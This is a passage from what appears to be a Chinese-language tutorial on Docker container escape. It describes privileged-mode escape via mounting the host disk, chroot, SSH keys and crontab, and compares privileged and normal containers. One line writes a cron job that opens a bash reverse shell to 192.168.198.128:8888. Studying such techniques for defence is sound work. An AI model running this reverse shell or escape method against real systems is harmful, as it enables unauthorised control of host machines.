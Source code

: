 如此成功逃逸到宿主机中，也可直接反弹shell`echo '* * * * * bash -i >& /dev/tcp/192.168.198.128/8888 0>&1' >> /var/spool/cron/root`

![img](Docker逃逸漏洞案例.assets/v2-e5453e0367177cd23a9f28acef0f0dca_720w.webp)

## **privileged特权模式启动容器**

特权模式逃逸是一种最简单有效的逃逸方法，该漏洞的原理是宿主机使用root用户或使用sudo命令启动的容器时，docker管理员可通过mount命令将外部宿主机磁盘设备挂载到容器内部，获取对整个宿主机的文件读写权限，可直接通过chroot切换根目录、写ssh公钥和crontab计划等逃逸到宿主机。

### **特权模式与非特权模式的区别**

-  `Linux Capabilities`

1.  普通模式下容器内进程只可以使用有限的一些Linux Capabilities
2.  特权模式下的容器内进程可以使用所有的Linux Capabilities

- Linux敏感目录 1.  普通模式下，部分内核模块路径比如/proc下的一些目录需要阻止写入、有些又需要允许读写，这些文件目录将会以tmpfs文件系统的方式挂载到容器中，以实现目录mask的需求 2. 特权模式下，这些目录将不再以tmpfs文件系统的方式挂载

- 任何内核文件都是可读写 1. 普通模式下，部分内核文件系统（sysfs、procfs）会被只读的方式挂载到容器中，以阻止容器内进程随意修改系统内核 2. 特权模式下，内核文件系统将不再以只读的方式被挂载

- APPArmor和Seccomp

1.  普通模式下，可以通过配置APPArmor或Seccomp相关安全选项
2. 特权模式下，这些AppArmor或Seccomp相关配置将不再生效

-  cgroup读写

1.  默认情况下，只能以只读模式操作cgroup
2.  特权模式下，将可以对cgroup进行读写操作

- /dev

1.  普通模式下，容器内/dev目录下看不到节点/dev目录下特有的devices
2.  特权模式下，容器内的/dev目录会包含这些来自节点/dev目录下的那些内容

- SELinux
